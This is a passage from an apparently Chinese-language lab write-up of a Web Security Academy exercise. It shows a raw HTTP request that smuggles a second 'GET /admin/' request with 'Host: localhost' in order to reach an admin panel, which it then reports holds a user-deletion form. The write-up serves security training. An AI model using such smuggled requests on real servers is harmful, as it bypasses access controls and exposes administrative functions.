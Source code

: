 [![](assets/1705301772-f3ba7558ccc453d1608c5f15fe50c04d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184230-9e15d096-b2c9-1.png)  
随后更改主机头为 localhost

```bash
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91


GET /admin/ HTTP/1.1
Host: localhost
```

[![](assets/1705301772-bfc43759f0e537b30166a0acd4d02eb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184253-ab89aa90-b2c9-1.png)  
重新发送请求并在 61 秒后可以看到已经能成功访问管理面板，观察管理面板可以看到这里包含一个用于删除给定用户的 HTML 表单，记下以下详细信息：
